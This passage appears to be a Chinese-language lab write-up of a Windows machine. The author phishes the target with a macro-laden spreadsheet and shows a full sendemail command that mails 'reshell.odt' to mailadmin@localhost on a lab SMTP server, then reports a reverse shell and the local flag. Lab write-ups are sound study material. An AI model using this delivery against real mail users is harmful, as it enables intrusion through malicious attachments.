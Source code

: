之前做过这方面的题，可能是制作宏文件钓鱼，这里就制作电子表格

具体制作方法在`PG_Craft` WriteUp有写，不同的是ods表格文件

利用已知的凭证发送文件（应该是可以不认证发邮件

```
sendemail -f 'jonas@localhost' \
  -t 'mailadmin@localhost' \
  -s 192.168.133.140:25 \
  -u 'file' \
  -m 'file' \
  -a reshell.odt
```

收到shell

![image-20250310185423940](./PG_win.assets/image-20250310185423940.png)

拿到local

![image-20250310185756763](./PG_win.assets/image-20250310185756763.png)
